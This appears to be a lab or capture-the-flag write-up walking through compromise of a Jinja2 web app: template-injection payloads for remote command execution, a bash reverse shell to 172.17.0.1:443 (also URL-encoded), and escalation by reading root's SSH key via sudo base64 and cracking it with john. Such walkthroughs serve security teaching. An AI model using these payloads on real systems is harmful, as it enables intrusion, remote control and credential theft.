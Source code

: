 # Port Scans and Services
* There are three ports open, 22, 80, and 8089
* There's a web app on port 8089
# Initial Access (Server-Side Template Injection)
* We see the web app takes in user input and returns it in the resulting page
* When we test this payload, it performs calculations..
```
{{7 * 7}}
```
* We suspect that this app is running the Jinja2 engine, so we try this payload
```
{{ ''.__class__.__mro__[1].__subclasses__() }}
```
* This confirms that the engine is Jinja2
* This website has a number of SSTi payloads
`https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python/#exploit-the-ssti-by-calling-ospopenread`
* This payload will let us perform RCE 
```
{{ lipsum.__globals__["os"].popen('<OS COMMAND HERE>').read() }}
```
* From here, we can send the following reverse shell payload to get initial access...
```
bash -c \'bash -i >& /dev/tcp/172.17.0.1/443 0>&1\'
```
Which doesn't work, unless it's URL encoded
```
bash%20-c%20%5C%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F443%200%3E%261%5C%27
```
# Privilege Escalation (Sudo Base64)
* After connection, we see that our user has sudo permissions with the b64 program, which allows for privileged file read
* It turns out that the root user has an SSH key, and we can access it and use it to log in as the root user
```
sudo base64 /root/.ssh/id_rsa | base64 --decode
```
* But first we have to crack the passphrase on the SSH key
```
ssh2john id_rsa > key.hash
john --wordlist=/usr/share/wordlists/rockyou.txt key.hash
```
Finis
